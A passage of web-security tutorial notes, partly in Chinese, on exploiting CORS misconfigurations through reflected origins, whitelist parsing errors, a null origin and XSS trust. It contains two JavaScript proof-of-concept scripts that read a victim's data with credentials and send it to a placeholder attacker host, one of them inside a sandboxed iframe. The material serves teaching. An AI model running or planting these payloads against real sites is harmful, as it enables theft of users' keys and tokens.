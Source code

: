 If the response contains any sensitive information such as an API key or [CSRF token](https://portswigger.net/web-security/csrf/tokens), you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};
```

## Errors parsing Origin headers

一些支持从多个来源访问的应用程序通过使用允许来源的**白名单**来实现

在实施CORS源白名单时，经常会出现错误。一些机构**允许从其所有子域进行访问**

实现中的任何错误都可能导致授予意外的外部域访问权限。

## Whitelisted null origin value

Origin header的规范支持值null。某些应用程序可能会将空源代码列入白名单，以支持应用程序的本地开发

在这种情况下，攻击者可以使用各种技巧生成一个跨域请求，该请求在源报头中包含null值

例如，这可以使用沙盒iframe cross-origin请求完成，其形式如下：

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Exploiting XSS via CORS trust relationships

如果网站信任易受跨站点脚本（XSS）攻击的源站，则攻击者可以利用XSS注入一些JavaScript，使用CORS从信任易受攻击应用程序的网站检索敏感信息。

```
like：
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
